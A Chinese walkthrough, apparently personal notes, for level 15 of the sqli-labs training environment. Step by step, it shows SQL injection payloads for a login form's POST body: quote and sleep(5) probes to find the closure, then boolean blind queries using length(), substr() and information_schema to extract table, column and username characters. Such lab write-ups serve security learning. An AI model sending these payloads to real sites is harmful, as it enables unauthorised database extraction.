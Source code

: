 ```yaml
---
title: Less - 15
date: 2023-03-14T14:26:54Z
lastmod: 2023-03-14T22:34:48Z
---
```


# Less - 15

---

# 通关教程

---

## 1、判断闭合方式

---

```html
uname=admin'&passwd=admin&submit=Submit #没有错误显示
uname=admin"&passwd=admin&submit=Submit #没有错误显示
```

​![image](assets/image-20230314222450-fbjybe9.png)​

​![image](assets/image-20230314222509-pe3dua7.png)​

---

这里我们发现我们不管我们输入什么都是没有错误信息显示的，这里我们可以使用时间盲注的方法判断注入点

```html
uname=admin' and sleep(5)#&passwd=admin&submit=Submit #页面休眠5秒
uname=admin" and sleep(5)#&passwd=admin&submit=Submit #页面快速反应
```

​![image](assets/image-20230314222714-m5hht7k.png)​

​![image](assets/image-20230314222747-a51uexr.png)​

由此判断闭合方式为’#，并且为字符型注入。这里没有错误回显，所以我们只能使用Boolean盲注

---

## 2、查看当前数据库长度

---

```html
uname=a' or length(database())=8#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314223108-m8xk42i.png)​

---

## 3、判断当前数据库的第一个字母

---

```html
uname=a' or substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e'#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314223216-aty3244.png)​

---

## 4、判断users表下的第一个字段的第一个字母

---

```html
uname=a' or substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='a'#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314223327-707slfv.png)​

---

## 5、判断username字段的第一个值的第一个字母

---

```html
uname=a' or substr((select username from security.users limit 0,1),1,1)='d'#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314223438-cserhzd.png)​

‍
